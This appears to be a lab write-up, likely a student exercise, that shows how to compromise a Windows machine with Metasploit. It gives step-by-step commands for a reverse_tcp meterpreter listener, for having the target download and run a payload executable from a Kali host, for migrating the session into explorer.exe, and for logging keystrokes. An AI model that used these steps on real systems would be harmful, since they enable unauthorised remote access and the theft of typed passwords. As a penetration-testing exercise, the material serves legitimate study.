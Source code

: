 Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

### Output 
<img width="539" height="107" alt="image" src="https://github.com/user-attachments/assets/b4004be8-5d93-4140-b3d8-3d208811e2c5" />


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit



To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

#### Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.



keyscan_dump Shows the keystrokes captured so far



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
